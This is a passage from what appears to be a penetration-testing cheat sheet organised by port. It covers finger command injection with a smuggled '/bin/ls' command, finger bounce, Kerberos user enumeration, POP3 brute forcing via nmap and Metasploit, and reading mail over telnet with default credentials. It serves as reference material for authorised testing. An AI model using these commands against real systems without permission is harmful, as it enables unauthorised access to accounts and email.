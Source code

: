 ```bash
finger "|/bin/ls -a /@example.com"
```
### Finger Bounce
```bash
finger user@host@victim
finger @internal@external
```
### Funny Bit
Weather forecast
```bash
finger london@graph.no
```



## 80, 8080, 443 - Web Ports
Too much to be listed here: `These are not the droids you are looking for`.
* [Web](https://caiomichele.github.io/JAM_Session/Services/Web-VA)



## 88 - Kerberos 
### Enumerate Users
```bash
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='test'" <IP>
```



## 110 - POP3
### Enumeration
```bash
nmap -sV -sC <IP>
```
```
use auxiliary/scanner/pop3/pop3_version
```
### Brute Force
```bash
nmap -sV --script=pop3-brute <IP>
```
```
use auxiliary/scanner/pop3/pop3_login
```
### Retrieve email
```bash
telnet <IP> 110
> USER admin@<IP>
> PASS admin

# List all emails
> list

# Retrive email number 5, for example
> retr 5
```
